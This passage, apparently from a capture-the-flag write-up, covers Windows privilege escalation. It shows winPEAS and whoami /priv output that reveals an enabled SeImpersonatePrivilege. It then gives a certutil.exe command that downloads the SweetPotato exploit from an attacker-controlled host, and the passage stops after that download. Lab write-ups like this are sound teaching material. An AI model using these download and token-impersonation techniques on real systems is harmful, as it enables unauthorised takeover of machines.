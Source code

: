 

# Shell as `SYSTEM`

### Enumeration

As `destitute` user, I could find `SeImpersonate` privilege using `winPEAS` and other commands.

```yaml
����������͹ Current Token privileges
� Check if you can escalate privilege using some enabled token https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#token-manipulation         
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeShutdownPrivilege: DISABLED
    SeAuditPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeUndockPrivilege: DISABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
    SeTimeZonePrivilege: DISABLED
```

```bash
C:\Users\Public\Documents>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Using `SweetPotato.exe` I can exploit this privilege.
Let's upload it first.

```bash
C:\Users\Public\Documents>certutil.exe -urlcache -split -f http://10.10.14.4:8000/SweetPotato.exe
certutil.exe -urlcache -split -f http://10.10.14.4:8000/SweetPotato.exe
****  Online  ****
  000000  ...
  0bf000
CertUtil: -URLCache command completed successfully.
```
